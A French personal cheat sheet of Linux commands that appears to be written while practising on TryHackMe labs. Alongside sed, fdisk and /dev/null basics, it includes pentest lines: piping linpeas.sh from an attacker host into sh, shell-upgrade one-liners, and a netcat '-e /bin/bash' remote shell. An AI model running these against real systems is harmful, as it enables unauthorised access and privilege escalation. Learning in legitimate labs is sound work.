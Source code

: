 N'oublie pas la commande man  
python -m http.server 8000

Pour récupérer le fichier : `curl [vpnhostIP]/`[linpeas.sh](http://linpeas.sh "http://linpeas.sh") `| sh` pour l'executer directement

wget : récupérer des fichiers via internet.

Formater cle usb :  
df : lister toute les partitions.  
sudo umount /dev/sd.....  
sudo mkfs.nfts /dev/sd.....

Quand ya un souci de capacité sur une clé usb :

**Étape 1. Supprimer toutes les partitions**

- Ouvrez un terminal et tapez **sudo su** .
- Tapez **fdisk -l** et notez la lettre de votre clé USB.
- Tapez **fdisk /dev/sdx** (en remplaçant x par votre lettre de lecteur).
- Tapez **d** pour procéder à la suppression d'une partition.
- Tapez **1** pour sélectionner la 1ère partition et appuyez sur Entrée.
- Tapez **d** pour procéder à la suppression d'une autre partition (fdisk devrait automatiquement sélectionner la deuxième partition).

**Étape 2. Créer une nouvelle partition**

- Tapez **n** pour créer une nouvelle partition.
- Tapez **p** pour rendre cette partition primaire et appuyez sur Entrée.
- Tapez **1** pour en faire la première partition, puis appuyez sur Entrée.
- Appuyez sur Entrée pour accepter le premier cylindre par défaut.
- Appuyez à nouveau sur Entrée pour accepter le dernier cylindre par défaut.
- Tapez **w** pour écrire les nouvelles informations de partition sur le disque USB.
- Tapez **mkfs.vfat -F 32 /dev/sdx1** (en remplaçant x par la lettre de votre clé USB).

adduser : créer un user

pour démarrer le vpn de thm, faire, dans download, sudo openvpn garhiak.ovpn &. Le & c'est pour le lancer en arrière plan. Puis faire entrer

Pour associer une adresse ip à un mot pour plus de rapidité, sudo nano /etc/host puis tu fais comme pour les autres, tu suis cette syntaxe :

[111.111.111.111](http://111.111.111.111 "http://111.111.111.111")            target

/dev/null : "trou noir" du terminal. en gros c'est pour supprimer des trucs.

Tu peux supp le résultat d'une commande (ne pas l'afficher): commande > /dev/null.

Tu peux aussi ne pas mettre d'entrée. par ex si j'ai un script qui affiche mon input, je fais ./[programme.sh](http://programme.sh "http://programme.sh") < /dev/null

Ou encore supprimer les erreurs : commande 2> /dev/null  
rappel :

En langage Unix, il existe trois flux standard :

- 0 : L'entrée standard (stdin) où les commandes lisent les données.
- 1 : La sortie standard (stdout) où les commandes affichent les résultats.
- 2 : Le flux d'erreur standard (stderr) où les commandes affichent les messages d'erreur.

cat ~/.*history | less : voir l'historique des commandes tapées

python -c 'import pty;pty.spawn("/bin/bash")' : Trois commandes (pas liées) à faire si tu est dans un shell réduit.

echo os.system('/bin/bash')  
/bin/sh -i

whoami : affiche l'utilisateur courant

|||
|---|---|
|Symbol / Operator|Description|
|&|Cet opérateur vous permet d'exécuter des commandes en arrière-plan de votre terminal.( à mettre après la commande)|
|&&|Cet opérateur vous permet de combiner plusieurs commandes dans une seule ligne de votre terminal.|
|>|Cet opérateur est un redirecteur - ce qui signifie que nous pouvons prendre la sortie d'une commande (comme l'utilisation de cat pour sortir un fichier) et la diriger ailleurs.|
|>>|Cet opérateur a la même fonction que l'opérateur >, mais il ajoute la sortie au lieu de la remplacer (ce qui signifie que rien n'est écrasé)..|

**Sed :** Editeur de données dans fichier (utile pour faire des trucs automatisés)

1. **Remplacement de texte :**

- Syntaxe de base : `sed 's/ancien_mot/nouveau_mot/' fichier`
- Exemple : `sed 's/apple/orange/' fichier.txt` remplace la première occurrence de "apple" par "orange" dans le fichier `fichier.txt`.

1. **Remplacement de toutes les occurrences :**

- Ajouter le modificateur `g` pour remplacer toutes les occurrences : `sed 's/ancien_mot/nouveau_mot/g' fichier`

1. **Utilisation de délimiteurs différents :**

- Vous pouvez utiliser des délimiteurs autres que `/` pour éviter d'avoir à échapper les caractères spéciaux. Par exemple : `sed 's|ancien_mot|nouveau_mot|' fichier`

1. **Suppression de lignes :**

- Pour supprimer une ligne qui contient un certain motif, utilisez : `sed '/motif/d' fichier`

1. **Impression de lignes spécifiques :**

- Utilisez `sed -n` pour supprimer l'impression par défaut, puis ajoutez une règle pour imprimer des lignes spécifiques. Par exemple : `sed -n '10,20p' fichier` imprime les lignes de 10 à 20.

1. **Ajout de texte à la fin d'une ligne :**

- `sed 's/$/ texte_a_ajouter/' fichier` ajoute "texte_a_ajouter" à la fin de chaque ligne.

1. **Utilisation de scripts avec **`**sed**`** :**

- Vous pouvez également utiliser des scripts `sed` contenus dans des fichiers externes. Par exemple : `sed -f script.sed fichier`

1. **Modification en place du fichier :**

- Ajouter l'option `-i` pour modifier le fichier en place. Par exemple : `sed -i 's/ancien_mot/nouveau_mot/' fichier`

1. **Utilisation de expressions régulières :**

- `sed` supporte les expressions régulières étendues (ERE). Par exemple : `sed -E 's/[0-9]+/NUM/g' fichier` remplace tous les nombres par "NUM

**Netcat :** établir connexion dans shell entre machine.

```
-c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
```

Attendre une connexion :

- nc -lvp portnumber

Se connecter :

- nc address portnumber

Executer un fichier quand on se connecte :

- nc address portnumber -e filename (on peut mettre /bin/bash pour que le listener puisse executer un shell sur ta session)

Charger un fichier text vers un fichier text distant :

- Dans la sessions listener : nc -lvp portnumber > filetarget.txt
- Dans la session connector : nc address portnumber < contentfile.txt
- Le contenu du contentfile.txt ira dans filetarget.txt

**Opérations mathématiques dans un shell**
- `printf "%x\n" $((0x7fffffffda70 - 0x24))`
- `printf "%d\n" 0x1f  `
- `printf "%020x" 123` Converti la valeur 123 en hex sur 20 bit
- `printf "%d\n" 0xFF

Programmer une tâche ponctuelle
`at now + 20 minutes
`> firefox` lance firefox dans 20 minutes


**Inodes** ^9a4a17
